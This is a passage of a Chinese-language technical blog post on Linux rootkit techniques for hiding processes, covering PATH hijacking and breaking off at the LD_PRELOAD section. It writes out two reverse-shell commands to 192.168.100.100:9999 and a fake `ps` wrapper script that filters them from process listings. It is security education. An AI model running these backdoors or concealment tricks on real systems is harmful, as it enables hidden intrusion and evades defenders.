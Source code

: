 ```yaml
---
title: "【技術筆記】ROOTKIT 隱藏程序技巧"
date: 2019-06-07
categories:
- 資安
tags:
- security
- rootkit
---
```


簡報版本 : https://www.slideshare.net/ssuserd44fa2/rootkit-101-228943978

---

root + kit 的意思就是拿到 root 權限後可以用的工具包，大多是隱藏程序的技巧，所以 rootkit 也可以理解成隱藏程序技術的通稱，不過也有些不需要 root 的隱藏程序技術，今天會逐一介紹 linux 上 rootkit 的原理與實作

## 隱之呼吸壹之型 - PATH Hijack

### 條件

不需要 root

### 目標

在 `ps` 的結果中隱藏下面兩種簡單的後門

1. `bash -i >& /dev/tcp/192.168.100.100/9999 0>&1`
2. `socat TCP:192.168.100.100:9999 EXEC:/bin/bash`

### 手法

假設在 `$PATH` 環境變數中 `/usr/local/bin` 在 `/bin` 前面，所以我們可以寫一個檔案在 `/usr/local/bin/ps`，這樣 `ps` 就會執行 `/usr/local/bin/ps` 而不是 `/bin/ps`，而達到 hook 程序的效果

```bash
#!/bin/bash
/bin/ps $@ | grep -Ev '192.168.100.100|socat'
```

* `grep -Ev` 是 inverse match
* `$@` 是傳進來的參數 ( 這裡原封不動的交給 `/bin/ps` )

## 隱之呼吸貳之型 - LD_PRELOAD

### 條件

不需要 root

### 目標

在 `ps` 的結果中隱藏下面兩種簡單的後門
